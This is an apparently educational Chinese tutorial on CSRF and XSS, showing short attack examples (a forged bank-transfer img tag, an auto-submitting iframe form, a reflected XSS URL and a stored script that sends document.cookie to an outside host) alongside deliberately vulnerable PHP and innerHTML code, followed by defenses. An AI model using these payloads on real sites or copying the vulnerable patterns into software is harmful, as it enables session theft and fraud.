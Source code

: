 # csrf 和 xss

## csrf

> 跨站请求伪造。通过伪造为受信任用户请求受信任的网站。其中 GET 形式可轻易被攻击、POST 接口也可以诱导用户进入带 Form 表单页面是用 POST 方式提交。

### 简单的攻击示例

-   <a href="#诱导GET请求攻击">诱导 GET 请求攻击</a>
-   <a href="#POST攻击">POST 攻击</a>

### 诱导 GET 请求攻击

::: tip
攻击前提:

1. 登录受信任网站 bank.com
2. 受信任网站提供 GET 方式的转账接口: /transfer?toBankID=11&money=100
   :::

```html
<img src="http://bank.com/transfer?toBankID=hacker&money=100" />
```

使用图片的方式可以在用户不知情的情况下直接发起攻击

### POST 攻击

为了应对 GET 请求产生的问题，受信任网站采用 POST 完成操作，表单如下

```html
<form action="/transfer" method="POST">
    <input name="toBankID" />
    <input name="money" />
    <input type="submit" />
</form>
```

::: tip
这种情况下，攻击者可以通过 iframe 的方式进行攻击，如下:
:::

```html
<script>
    function hack() {
        iframe = document.frames['iframe'];
        iframe.document.getElementById('transfer').submit();
    }
</script>
<iframe onload="hack" name="iframe">
    <form
        action="http://bank.com/transfer"
        method="POST"
        name="transfer"
        id="transfer"
    >
        <input name="toBankID" />
        <input name="money" />
        <input type="submit" />
    </form>
</iframe>
```

攻击者通过 iframe 表单进行了 POST 请求，所有攻击方式源于 WEB 的隐式身份验证机制！该身份验证能够保证请求来自用户浏览器，但是不能保证式用户授权发送的。

### 防御

1. 为表单提交增加 csrf-token 用于验证，理论上攻击者无法伪造 csrf-token, 确保发送的表单是用户授权的。（令牌）
2. 规范网络请求，涉及增删改不能使用 GET 请求
3. 检查 Referer
4. 安全性高的页面增加验证码

## xss

> 跨站脚本攻击。恶意注入 Script 代码，达到攻击的目的。

### xss 种类

-   <a href="#DOM BASED">DOM BASED</a>
-   <a href="#存储型">存储型</a>
-   <a href="#反射型">反射型</a>

### 反射型

反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器，这种攻击方式往往需要攻击者诱使用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。

可信网站 A.com 有如下 php 页面：

```php
<?php
echo "
        <html>
            <body>
                $_GET["query"]
            </body>
        </html>
      "
?>

```

攻击者可以引导用户打开如下地址:

```txt
http://A.com?query=<script>hack(document.cookie);</script>
```

此时攻击者可以通过任意方式获取用户 cookie，伪造用户登录状态执行非法操作。

### 存储型攻击

受信网站提供持久化存储，如发布文章、发布动态等，但是未过滤用户输入而触发攻击。
如发布以下文章

```html
震惊!!!!!夜里母猪为何惨叫?
<script>
    window.open('www.b.com?param=' + document.cookie);
</script>
```

所有浏览该文章的用户均会收到攻击。

### DOM BASE

基于 DOM 的 XSS 攻击是指通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击。

```html
<h2>XSS:</h2>
<input type="text" id="input" />
<button id="btn">Submit</button>
<div id="div"></div>
<script>
    const input = document.getElementById('input');
    const btn = document.getElementById('btn');
    const div = document.getElementById('div');

    let val;

    input.addEventListener(
        'change',
        e => {
            val = e.target.value;
        },
        false
    );

    btn.addEventListener(
        'click',
        () => {
            div.innerHTML = `<a href=${val}>testLink</a>`;
        },
        false
    );
</script>
```

### 攻防
1. 不要相信用户的任何输入
2. 攻击者的意图主要是获取用于Cookie信息，可以使用HttpOnly防止cookie被劫持
3. 输出检查（变量输出需要转码之后输出到页面中）